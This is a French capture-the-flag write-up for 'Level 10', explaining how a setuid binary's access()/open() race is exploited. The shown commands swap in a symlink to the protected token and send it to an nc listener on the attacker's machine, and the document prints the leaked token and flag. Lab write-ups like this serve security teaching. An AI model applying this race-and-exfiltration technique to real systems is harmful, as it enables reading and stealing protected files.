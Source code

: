# Level 10

Comme pour le level 8 et 9 nous avons toujours 2 fichiers, un binaire pourtant le nom du level et un fichier token.

Comme pour le level 8 nous n'avons pas les droits pour lire le fichier token, mais le binaire as les droits.

Quand on décompile le binaire, on peut voir qu'il essaye de se connecter à un adresse ip passé en argument sur le port `6969` et d'écrire le fichier passé en argument sur le serveur.

Avant de se connecter il regarde les droits de l'utilisateur réel sur le fichier avec la fonction `access`, notre utilisateur réel n'as pas les droits sur le fichier token.

Mais l'utilisation d'`access` puis `open` crée un trou de sécurité comme l'explique le man de [access](http://manpagesfr.free.fr/man/man2/access.2.html), car entre le temps de la vérification et de l'ouverture nous pouvons crée un lien symbolique d'un fichier ou quel nous n'avons pas les droits réel.

En passant l'adresse IP du vboxnet 192.168.56.1, l'executable `level10` attend une réponse ce qui nous laisse le temps de pouvoir crée notre lien symbolique du fichier token.

Sur le serveur tty1:

```sh
~ echo "123" > /tmp/link
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 ..
[wait]
```

Sur le serveur tty2:

```sh
~ ln -fs /home/user/level10/token /tmp/link
```

Sur notre machine local:

```sh
~ nc -lv 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

Sur le serveur tty1:

```sh
~ ./level10 /tmp/link 192.168.56.1
Connecting to 192.168.56.1:6969 .. Connected!
Sending file .. wrote file!
~ su flag10
Password:
Don\'t forget to launch getflag !
~ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

